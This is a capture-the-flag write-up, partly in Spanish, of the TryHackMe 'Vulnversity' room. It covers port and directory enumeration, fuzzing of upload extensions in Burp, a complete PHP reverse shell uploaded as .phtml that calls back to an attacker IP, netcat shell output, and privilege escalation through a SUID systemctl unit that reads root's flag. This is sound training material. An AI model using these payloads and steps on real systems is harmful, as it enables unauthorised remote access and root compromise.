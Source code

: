 # Vulnversity — Writeup

**Fecha:** 28-09-2025\ 
**Plataforma:** TryHackMe

## TL;DR

Se encontraron servicios FTP, SSH, Samba y un servicio web con un directorio de subida (/internal). Subiendo un webshell .phtml se consiguió una reverse shell como www-data. Desde esa cuenta se escaló privilegios aprovechando /bin/systemctl con permiso SUID para ejecutar una unidad systemd que leyó /root/root.txt a /tmp/flag.

---

## Enumeration (nmap)

```bash
nmap -sV -sC --open $IP -oN scan.txt
```

**Comment:** `-sV` detecta versiones de servicios; `-sC` ejecuta scripts por defecto; `--open` muestra solo los puertos abiertos; `-oN` guarda la salida en un archivo normal.

**Result**
```bash
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.5
22/tcp   open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 19:78:f4:6e:d8:11:72:e7:ba:60:0c:d2:ba:c9:a3:e7 (RSA)
|   256 e1:6e:3e:95:e0:bd:78:db:e9:aa:74:44:67:f0:a6:8e (ECDSA)
|_  256 8e:8d:24:7f:0d:77:52:20:40:2b:9e:ec:b3:e9:50:a8 (ED25519)
139/tcp  open  netbios-ssn Samba smbd 4
445/tcp  open  netbios-ssn Samba smbd 4
3128/tcp open  http-proxy  Squid http proxy 4.10
|_http-title: ERROR: The requested URL could not be retrieved
|_http-server-header: squid/4.10
3333/tcp open  http        Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Vuln University
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_clock-skew: -1s
|_nbstat: NetBIOS name: , NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-time: 
|   date: 2025-09-27T20:40:34
|_  start_date: N/A
```
**Summary**

* 21/tcp open ftp (vsftpd/3.0.5)
* 22/tcp open  ssh (OpenSSH 8.2p1)
* 139/445/tcp open Samba (smbd)
* 3128/tcp open http-proxy (Squid/4.10)
* 3333/tcp open  http (Apache/2.4.41)

---

## Web Enumeration (Gobuster)

```bash
gobuster dir -u http://$IP:3333 -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt
```

**Comment:** `-u` url target; `-w` ruta de wordlist.

**Result**
```bash
/images               (Status: 301) [Size: 322] [--> http://$IP:3333/images/]                                                                   
/css                  (Status: 301) [Size: 319] [--> http://$IP:3333/css/]                                                                      
/js                   (Status: 301) [Size: 318] [--> http://$IP:3333/js/]                                                                       
/internal             (Status: 301) [Size: 324] [--> http://$IP:3333/internal/] 
```
**Relevant Result**

* `/internal`, directorio web para subir archivos.
  
---

## Burp Suite

**Http POST**

Interceptamos la petición POST al subir un archivo a la web con el proxy de BurpSuite, la enviamos al Intruder y marcamos la extensión.
```bash
POST /internal/index.php HTTP/1.1
Host: $IP:3333
Content-Length: 291
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://$IP:3333
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryJ8PkprBlb27KbdYV
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://$IP:3333/internal/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

------WebKitFormBoundaryJ8PkprBlb27KbdYV
Content-Disposition: form-data; name="file"; filename="test.§php§"
Content-Type: application/x-php

test

------WebKitFormBoundaryJ8PkprBlb27KbdYV
Content-Disposition: form-data; name="submit"

Submit
------WebKitFormBoundaryJ8PkprBlb27KbdYV--
```

**Find extension**

Aplicamos una wordlist de extensiones (phpext.txt) como payload para identificar la correcta:
<details>
	<summary><i>phpext.txt</i></summary>
		
		.php
		.php3
		.php4
		.php5
		.phtml
	
</details>

**Result**
* Extensión permitida: `.phtml`

---

## Foothold

**Reverse Shell**
<details><summary><i>php-reverse-shell.phtml</i></summary>

```bash	
	<?php
	set_time_limit (0);
	$VERSION = "1.0";
	$ip = '$IP';  // CHANGE THIS
	$port = 1234;       // CHANGE THIS
	$chunk_size = 1400;
	$write_a = null;
	$error_a = null;
	$shell = 'uname -a; w; id; /bin/sh -i';
	$daemon = 0;
	$debug = 0;
	
	//
	// Daemonise ourself if possible to avoid zombies later
	//
	
	// pcntl_fork is hardly ever available, but will allow us to daemonise
	// our php process and avoid zombies.  Worth a try...
	if (function_exists('pcntl_fork')) {
		// Fork and have the parent process exit
		$pid = pcntl_fork();
		
		if ($pid == -1) {
			printit("ERROR: Can't fork");
			exit(1);
		}
		
		if ($pid) {
			exit(0);  // Parent exits
		}
	
		// Make the current process a session leader
		// Will only succeed if we forked
		if (posix_setsid() == -1) {
			printit("Error: Can't setsid()");
			exit(1);
		}
	
		$daemon = 1;
	} else {
		printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
	}
	
	// Change to a safe directory
	chdir("/");
	
	// Remove any umask we inherited
	umask(0);
	
	//
	// Do the reverse shell...
	//
	
	// Open reverse connection
	$sock = fsockopen($ip, $port, $errno, $errstr, 30);
	if (!$sock) {
		printit("$errstr ($errno)");
		exit(1);
	}
	
	// Spawn shell process
	$descriptorspec = array(
	   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
	   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
	   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
	);
	
	$process = proc_open($shell, $descriptorspec, $pipes);
	
	if (!is_resource($process)) {
		printit("ERROR: Can't spawn shell");
		exit(1);
	}
	
	// Set everything to non-blocking
	// Reason: Occsionally reads will block, even though stream_select tells us they won't
	stream_set_blocking($pipes[0], 0);
	stream_set_blocking($pipes[1], 0);
	stream_set_blocking($pipes[2], 0);
	stream_set_blocking($sock, 0);
	
	printit("Successfully opened reverse shell to $ip:$port");
	
	while (1) {
		// Check for end of TCP connection
		if (feof($sock)) {
			printit("ERROR: Shell connection terminated");
			break;
		}
	
		// Check for end of STDOUT
		if (feof($pipes[1])) {
			printit("ERROR: Shell process terminated");
			break;
		}
	
		// Wait until a command is end down $sock, or some
		// command output is available on STDOUT or STDERR
		$read_a = array($sock, $pipes[1], $pipes[2]);
		$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);
	
		// If we can read from the TCP socket, send
		// data to process's STDIN
		if (in_array($sock, $read_a)) {
			if ($debug) printit("SOCK READ");
			$input = fread($sock, $chunk_size);
			if ($debug) printit("SOCK: $input");
			fwrite($pipes[0], $input);
		}
	
		// If we can read from the process's STDOUT
		// send data down tcp connection
		if (in_array($pipes[1], $read_a)) {
			if ($debug) printit("STDOUT READ");
			$input = fread($pipes[1], $chunk_size);
			if ($debug) printit("STDOUT: $input");
			fwrite($sock, $input);
		}
	
		// If we can read from the process's STDERR
		// send data down tcp connection
		if (in_array($pipes[2], $read_a)) {
			if ($debug) printit("STDERR READ");
			$input = fread($pipes[2], $chunk_size);
			if ($debug) printit("STDERR: $input");
			fwrite($sock, $input);
		}
	}
	
	fclose($sock);
	fclose($pipes[0]);
	fclose($pipes[1]);
	fclose($pipes[2]);
	proc_close($process);
	
	// Like print, but does nothing if we've daemonised ourself
	// (I can't figure out how to redirect STDOUT like a proper daemon)
	function printit ($string) {
		if (!$daemon) {
			print "$string\n";
		}
	}
	
	?>
```

</details>

**Upload reverse shell php**
```bash
	http://$IP:3333/internal/
```	

**Execute Payload**
```bash
	http://$IP:3333/internal/uploads/php-reverse-shell.phtml
```

**Listen Port**
```bash
	nc -lvnp 4444             
	listening on [any] 4444 ...
	connect to [$IP] from (UNKNOWN) [$IP] 45390
	Linux $IP 5.15.0-139-generic #149~20.04.1-Ubuntu SMP Wed Apr 16 08:29:56 UTC 2025 x86_64 x86_64 x86_64 GNU/Linux
	 14:46:58 up 3 min,  0 users,  load average: 0.82, 0.38, 0.14
	USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
	uid=33(www-data) gid=33(www-data) groups=33(www-data)
	$ whoami
	www-data
```

**Upgrade Shell**
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

---

## Privilege Escalation

**Find SUID Files**
```bash
 find / -user root -perm -4000 -exec ls -ldb {} \;
```
**Exploit systemctl**

```bash
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/flag"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
```
**Cat Flag**
```bash
	$ cat /tmp/flag
```
